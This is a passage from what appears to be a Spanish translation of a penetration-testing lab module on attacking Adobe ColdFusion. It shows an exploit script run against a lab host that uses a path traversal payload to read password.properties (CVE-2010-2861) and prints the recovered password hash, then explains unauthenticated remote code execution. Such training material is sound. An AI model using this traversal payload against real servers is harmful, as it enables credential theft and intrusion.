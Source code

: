 Al proporcionar los parámetros correctos al script de exploit y especificar la ruta del archivo deseado, el script puede activar un exploit en los puntos finales vulnerables mencionados anteriormente. Luego, el script generará el resultado del intento de exploit:

### **Coldfusion - Explotación**

Atacando a Coldfusion

```
xnoxos@htb[/htb]$ python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \npassword=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
...

```

Como podemos ver, el contenido del`password.properties`Se han recuperado el archivo, lo que demuestra que este objetivo es vulnerable a`CVE-2010-2861`.

---

# **RCE no autenticado**

Ejecución de código remoto no autenticado (`RCE`) es un tipo de vulnerabilidad de seguridad que permite que un atacante`execute arbitrary code`en un sistema vulnerable`without requiring authentication`. Este tipo de vulnerabilidad puede tener graves consecuencias, como lo hará`enable an attacker to take complete control of the system`y potencialmente robar datos confidenciales o causar daños al sistema.

La diferencia entre un`RCE`y un`Unauthenticated Remote Code Execution`es si un atacante necesita o no proporcionar credenciales de autenticación válidas para explotar la vulnerabilidad. Una vulnerabilidad de RCE permite que un atacante ejecute código arbitrario en un sistema de destino, independientemente de si tienen o no credenciales válidas. Sin embargo, en muchos casos, las vulnerabilidades de RCE requieren que el atacante ya tenga acceso a alguna parte del sistema, ya sea a través de una cuenta de usuario u otros medios.

Por el contrario, una vulnerabilidad de RCE no autenticada permite que un atacante ejecute código arbitrario en un sistema de destino sin ninguna credencial de autenticación válida. Esto hace que este tipo de vulnerabilidad sea particularmente peligroso, ya que un atacante puede hacerse cargo de un sistema o ejecutar comandos maliciosos sin ninguna barrera de entrada.

En el contexto de las aplicaciones web de ColdFusion, un ataque RCE no autenticado ocurre cuando un atacante puede ejecutar código arbitrario en el servidor sin requerir ninguna autenticación. Esto puede suceder cuando una aplicación web permite la ejecución del código arbitrario a través de una característica o función que no requiere autenticación, como una consola de depuración o una funcionalidad de carga de archivos. Tome el siguiente código:

Código:html
